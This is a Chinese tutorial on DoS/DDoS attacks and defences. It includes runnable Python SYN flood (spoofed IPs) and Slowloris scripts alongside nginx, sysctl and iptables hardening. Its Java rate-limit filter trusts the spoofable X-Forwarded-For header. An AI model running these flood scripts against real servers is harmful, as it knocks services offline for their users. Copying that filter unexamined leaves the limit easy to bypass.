






# DoS 与 DDoS 攻击

你的网站突然无法访问，监控显示流量暴涨 100 倍。但奇怪的是，这些流量并不访问任何具体页面，只是疯狂建立 TCP 连接。这是什么攻击？

这就是经典的 **SYN Flood** 攻击——用最小的代价，让你的服务器耗尽连接资源。DoS/DDoS 是最「简单粗暴」的攻击方式，却也是最难防御的。本篇将深入解析各种 DoS/DDoS 攻击的原理，以及现代防护体系。

## 攻击分类

### 按协议层分类

| 层级 | 攻击类型 | 特点 |
|---|---|---|
| 应用层 | CC 攻击、HTTP Flood、Slowloris | 模拟正常请求，难以识别 |
| 传输层 | SYN Flood、UDP Flood、ICMP Flood | 消耗连接/带宽资源 |
| 网络层 | IP Fragmentation、Smurf、Ping of Death | 利用协议设计缺陷 |

### 按攻击方式分类

| 类型 | 原理 | 防御难度 |
|---|---|---|
| 带宽消耗型 | 发送海量数据堵死带宽 | 相对容易识别 |
| 连接消耗型 | 耗尽服务器连接资源 | 较难识别 |
| 应用消耗型 | 消耗 CPU、内存、数据库连接 | 最难识别 |

## SYN Flood 攻击

### TCP 三次握手回顾



### 攻击原理

SYN Flood 攻击者发送大量 SYN 包，但不完成三次握手：



### Python 实现 SYN Flood

```python
#!/usr/bin/env python3
from scapy.all import *
import random

def syn_flood(target_ip, target_port, count=10000):
    """SYN Flood 攻击示例（仅用于理解原理）"""
    print(f"发送 {count} 个 SYN 包到 {target_ip}:{target_port}")

    # 伪造源 IP
    source_ips = [f"192.168.{random.randint(1,255)}.{random.randint(1,255)}"
                  for _ in range(count // 100)]

    for i in range(count):
        src_ip = random.choice(source_ips)
        src_port = random.randint(1024, 65535)

        # 构造 SYN 包
        packet = IP(src=src_ip, dst=target_ip)/TCP(
            sport=src_port,
            dport=target_port,
            flags='S',
            seq=random.randint(0, 2**32 - 1)
        )

        send(packet, verbose=0)

        if i % 1000 == 0:
            print(f"已发送 {i} 个包")

if __name__ == "__main__":
    import sys
    if len(sys.argv) != 4:
        print(f"用法: {sys.argv[0]} <目标IP> <端口> <数量>")
        sys.exit(1)
    syn_flood(sys.argv[1], int(sys.argv[2]), int(sys.argv[3]))
```

### 防御措施

```nginx
# Nginx 半开连接限制
server {
    # 限制单个 IP 的连接数
    limit_conn_zone $binary_remote_addr zone=conn_limit:10m;
    limit_conn conn_limit 100;
}
```

```bash
# Linux 内核参数调优
# /etc/sysctl.conf

# 增大半开连接队列
net.ipv4.tcp_max_syn_backlog = 8192

# 启用 SYN Cookies
net.ipv4.tcp_syncookies = 1

# 降低 SYN+ACK 重试次数
net.ipv4.tcp_synack_retries = 1
net.ipv4.tcp_syn_retries = 1

# 生效
sudo sysctl -p
```

```bash
# iptables 限流
# 限制单个 IP 的 SYN 包速率
iptables -A INPUT -p tcp --dport 80 --syn -m limit --limit 10/s --limit-burst 20 -j ACCEPT
iptables -A INPUT -p tcp --dport 80 --syn -j DROP
```

## UDP Flood 攻击

### 攻击原理

UDP 是无连接的协议，服务器收到 UDP 包后：
1. 检查端口是否监听
2. 如果没有，发送 ICMP Destination Unreachable
3. 如果有，交给应用程序处理

攻击者发送大量 UDP 包，消耗服务器资源：



### 防御措施

```bash
# iptables UDP 限流
iptables -A INPUT -p udp --dport 53 -m limit --limit 1000/s -j ACCEPT
iptables -A INPUT -p udp --dport 53 -j DROP

# 限制其他 UDP 端口
iptables -A INPUT -p udp --dport 1024:65535 -m limit --limit 100/s -j ACCEPT
iptables -A INPUT -p udp -j DROP

# 启用连接跟踪模块
modprobe ip_conntrack
```

```bash
# conntrack 统计
conntrack -L | grep ESTABLISHED | wc -l
conntrack -F  # 清除 conntrack 表
```

## CC 攻击（Challenge Collapsar）

### 攻击原理

CC 攻击模拟正常用户访问，消耗服务器资源：



### 特征识别

```
日志特征：
- 同一 User-Agent 大量请求
- 同一 IP 不同时间请求不同页面
- 请求频率异常
- Referer 不正常
```

```bash
# 分析日志找出异常 IP
awk '{print $1}' access.log | sort | uniq -c | sort -rn | head -20

# 分析 User-Agent
awk -F'"' '{print $6}' access.log | sort | uniq -c | sort -rn | head -20
```

### Java 防御代码

```java
import org.springframework.stereotype.Component;
import jakarta.servlet.*;
import jakarta.servlet.http.*;
import java.util.concurrent.*;
import java.util.Map;

@Component
public class AntiCCFilter implements Filter {

    private final Map<String, Counter> ipCounter = new ConcurrentHashMap<>();
    private final ScheduledExecutorService scheduler = Executors.newSingleThreadScheduledExecutor();

    // 阈值配置
    private static final int MAX_REQUESTS_PER_MINUTE = 100;
    private static final long CLEANUP_INTERVAL = 60000; // 1 分钟

    @Override
    public void init(FilterConfig filterConfig) {
        // 定期清理过期记录
        scheduler.scheduleAtFixedRate(() -> {
            long now = System.currentTimeMillis();
            ipCounter.entrySet().removeIf(e -> now - e.getValue().lastTime > 60000);
        }, CLEANUP_INTERVAL, CLEANUP_INTERVAL, TimeUnit.MILLISECONDS);
    }

    @Override
    public void doFilter(ServletRequest req, ServletResponse res, FilterChain chain)
            throws IOException, ServletException {

        HttpServletRequest request = (HttpServletRequest) req;
        String clientIp = getClientIp(request);

        Counter counter = ipCounter.computeIfAbsent(clientIp, k -> new Counter());

        long now = System.currentTimeMillis();
        if (now - counter.lastTime > 60000) {
            counter.count = 0;
            counter.lastTime = now;
        }

        counter.count++;

        if (counter.count > MAX_REQUESTS_PER_MINUTE) {
            HttpServletResponse response = (HttpServletResponse) res;
            response.setStatus(429);
            response.getWriter().write("Too Many Requests");
            return;
        }

        chain.doFilter(req, res);
    }

    private String getClientIp(HttpServletRequest request) {
        String ip = request.getHeader("X-Forwarded-For");
        if (ip == null || ip.isEmpty()) {
            ip = request.getHeader("X-Real-IP");
        }
        if (ip == null || ip.isEmpty()) {
            ip = request.getRemoteAddr();
        }
        return ip.split(",")[0].trim();
    }

    private static class Counter {
        volatile long count = 0;
        volatile long lastTime = System.currentTimeMillis();
    }
}
```

## Slowloris 攻击

### 攻击原理

Slowloris 缓慢发送 HTTP 请求头，耗尽服务器连接资源：

```bash
# Slowloris 攻击示意
# 发送不完整的 HTTP 请求
printf "GET / HTTP/1.1\r\n";
printf "Host: example.com\r\n";
printf "User-Agent: Slowloris\r\n";
# 然后每 15 秒发送一个字节
sleep 15; printf "X-a: test\r\n";
sleep 15; printf "X-b: test\r\n";
# 永远不发送空行完成请求
```

### Python 实现

```python
#!/usr/bin/env python3
import socket
import time
import random

def slowloris(target_ip, target_port=80, duration=600):
    """Slowloris 攻击示例"""
    sockets = []

    # 创建多个连接
    num_sockets = 200
    for _ in range(num_sockets):
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(5)
            s.connect((target_ip, target_port))
            sockets.append(s)
            # 发送不完整的请求
            s.send(f"GET /?{random.randint(0, 9999)} HTTP/1.1\r\n".encode())
            s.send(f"Host: {target_ip}\r\n".encode())
        except Exception as e:
            print(f"连接失败: {e}")
            break

    print(f"建立了 {len(sockets)} 个连接")

    # 持续发送请求头
    end_time = time.time() + duration
    while time.time() < end_time and sockets:
        for s in sockets:
            try:
                s.send(f"X-a: {random.randint(1, 5000)}\r\n".encode())
                time.sleep(5)
            except:
                sockets.remove(s)
                try:
                    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                    s.settimeout(5)
                    s.connect((target_ip, target_port))
                    sockets.append(s)
                    s.send(f"GET / HTTP/1.1\r\n".encode())
                    s.send(f"Host: {target_ip}\r\n".encode())
                except:
                    pass
        time.sleep(5)

if __name__ == "__main__":
    import sys
    slowloris(sys.argv[1] if len(sys.argv) > 1 else "127.0.0.1")
```

### 防御措施

```nginx
# Nginx 配置
server {
    # 请求体大小限制
    client_max_body_size 1m;

    # 读取超时
    client_body_timeout 10s;
    client_header_timeout 10s;

    # 头部大小限制
    client_header_buffer_size 1k;
    large_client_header_buffers 4 8k;
}
```

## 现代防护体系

### 流量清洗架构



### CDN + Anycast



### 高防 IP

```java
// 阿里云 DDoS 高防配置示例
// 使用 API 将流量切到高防 IP
import com.aliyuncs.DefaultAcsClient;
import com.aliyuncs.ddos.model.v20180711.*;

public class DdosProtection {

    public void switchToHighDefense(String ip, String instanceId) {
        // 购买高防实例后，配置引流
        // 流量先到高防清洗，再回注源站
    }
}
```

## 监控与应急

### 流量监控指标

```bash
# 网络流量监控
iftop -i eth0
nload

# TCP 连接统计
ss -s
# ss -s
# Total: 256 (kernel 512)
# TCP:   123 (est 100, conn 20, synrecv 0)

# 应用层 QPS
# 查看 Nginx 状态
curl http://127.0.0.1/nginx_status
```

### 自动化应急脚本

```bash
#!/bin/bash
# auto-block-ddos.sh

THRESHOLD=1000  # 单 IP 每分钟请求数阈值
LOG_FILE="/var/log/nginx/access.log"

# 获取异常 IP
ABNORMAL_IPS=$(awk '{print $1}' $LOG_FILE | \
    sort | uniq -c | sort -rn | \
    awk -v t=$THRESHOLD '$1 > t {print $2}')

# 自动封禁
for ip in $ABNORMAL_IPS; do
    if ! iptables -L INPUT -n | grep -q $ip; then
        echo "封禁 IP: $ip"
        iptables -A INPUT -s $ip -j DROP
    fi
done
```

## 面试追问方向

- SYN Flood 的原理？为什么启用 SYN Cookies 可以缓解？
- UDP Flood 和 SYN Flood 的区别？
- CC 攻击和应用层 DDoS 的区别？
- 什么是 Slowloris 攻击？如何防御？
- 高防 IP 和 CDN 的防护原理是什么？
- Anycast 如何缓解 DDoS 攻击？

> DDoS 攻击没有完美的防御，只有层层设防、及时响应。理解攻击原理，才能构建有效的防护体系。
